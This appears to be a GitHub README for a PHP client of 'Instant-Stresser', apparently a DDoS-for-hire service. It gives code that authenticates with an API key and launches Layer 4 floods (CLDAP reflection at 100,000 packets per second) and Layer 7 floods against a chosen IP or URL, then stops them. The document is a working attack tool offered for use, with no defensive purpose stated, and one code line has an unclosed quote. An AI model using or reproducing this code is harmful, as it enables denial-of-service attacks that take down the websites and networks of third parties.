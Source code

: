 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = 123456789;
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = "80;
$time = "15";
$method = "CLDAP";
$slots = 1;
$pps = 100000;

/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4($host, $port, $time, $method, $slots, $pps);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = "15";
$method = "JSDOM";
$slots = 1;
$origin = "Worldwide";
$requesttype = "GET";
$ratelimit = "false";

/* Parameters : URL , Time , Method , Slots , Type, Origin Proxy, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7($host, $time, $method, $slots, $requesttype, $origin, $ratelimit);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
